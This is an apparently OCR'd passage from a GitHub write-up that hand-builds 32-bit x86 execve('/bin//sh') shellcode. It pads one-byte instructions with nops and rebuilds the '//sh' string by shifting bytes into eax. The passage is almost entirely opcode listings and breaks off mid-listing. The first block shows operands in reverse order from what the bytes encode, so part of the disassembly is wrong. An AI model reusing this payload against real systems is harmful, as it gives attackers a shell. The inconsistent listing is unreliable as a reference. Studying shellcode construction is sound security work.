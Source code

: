 doing some adjusting for the 2 commands that are only 1 byte

```
31 c0                 xor    eax,eax
50                    push   eax
90                    nop
68 2f 2f 73 68        push   0x68732f2f
68 2f 62 69 6e        push   0x6e69622f
89 e3                 mov    esp,ebx
89 c1                 mov    eax,ecx
89 c2                 mov    eax,edx
b0 0b                 mov    0xb,al
cd 80                 int    0x80
31 c0                 xor    eax,eax
40                    inc    eax
90                    nop
cd 80                 int    0x80
```
now the tricky part is the big chunk of push we need to change. what we could do is put it in eax after clearing it, input 2 bytes, shift those 2 bytes, put the next 2 bytes, shift the whole thing, rinse and repeat, until we have the whole thing and push it.
```
0:  31 c0                   xor    eax,eax
2:  31 c9                   xor    ecx,ecx
4:  50                      push   eax
5:  90                      nop
6:  31 c0                   xor    eax,eax
8:  b1 68                   mov    cl,0x68
a:  01 c8                   add    eax,ecx
c:  d1 e0                   shl    eax,1
e:  d1 e0                   shl    eax,1
10: d1 e0                   shl    eax,1
12: d1 e0                   shl    eax,1
14: d1 e0                   shl    eax,1
16: d1 e0                   shl    eax,1
18: d1 e0                   shl    eax,1
1a: d1 e0                   shl    eax,1
1c: b1 73                   mov    cl,0x73
1e: 01 c8                   add    eax,ecx
20: d1 e0                   shl    eax,1
22: d1 e0                   shl    eax,1
24: d1 e0                   shl    eax,1
26: d1 e0                   shl    eax,1
28: d1 e0                   shl    eax,1
2a: d1 e0                   shl    eax,1
2c: d1 e0                   shl    eax,1
2e: d1 e0                   shl    eax,1
30: b1 2f                   mov    cl,0x2f
32: 01 c8                   add    eax,ecx
34: d1 e0                   shl    eax,1
36: d1 e0                   shl    eax,1
38: d1 e0                   shl    eax,1
3a: d1 e0                   shl    eax,1
3c: d1 e0                   shl    eax,1
3e: d1 e0                   shl    eax,1
40: d1 e0                   shl    eax,1
42: d1 e0                   shl    eax,1
44: b1 2f                   mov    cl,0x2f
46: 01 c8                   add    eax,ecx
48: 50                      push   eax
49: 90                      nop
4a: 31 c0                   xor    eax,eax
4c: b1 6e                   mov    cl,0x6e
4e: 01 c8                   add    eax,ecx
50: d1 e0                   shl    eax,1
```